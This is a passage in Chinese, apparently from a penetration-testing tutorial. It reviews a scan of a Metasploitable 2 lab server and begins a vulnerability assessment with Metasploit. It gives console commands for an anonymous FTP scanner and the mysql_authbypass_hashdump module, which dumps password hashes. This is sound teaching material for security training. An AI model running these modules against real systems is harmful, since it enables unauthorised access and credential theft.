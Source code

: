 前面的截图显示了服务器正在运行`ftp`、`openssh`、`telnet`、`smtp`、`domain`等。已检索到更多信息。让我们看看以下截图：

![如何操作...](img/image_03_021.jpg)

我们还可以看到系统上运行着`mysql`服务、`postgresql`服务、`vnc`服务、`x11`和`IRC`。现在让我们开始对 Metasploitable 2 服务器进行漏洞评估。

1.  在整个过程中，我们将使用 Metasploit。让我们分析`ftp`服务，看看它是否容易受到已知组件的攻击。如果`Rhosts`选项没有显示我们的目标 IP 地址，我们可以手动填写。在 Metasploit 控制台中输入以下命令：

```
      use auxiliary/scanner/ftp/anonymous
      show options
      set Rhosts <IP Address>
      exploit

```

输出如下截图所示：

![如何操作...](img/image_03_022.jpg)

1.  我们将尝试使用`mysql`的身份验证绕过，看看我们是否成功。在`msf`终端上运行以下命令：

```
      use auxiliary/scanner/mysql/mysql_authbypass_hashdump
      exploit

```

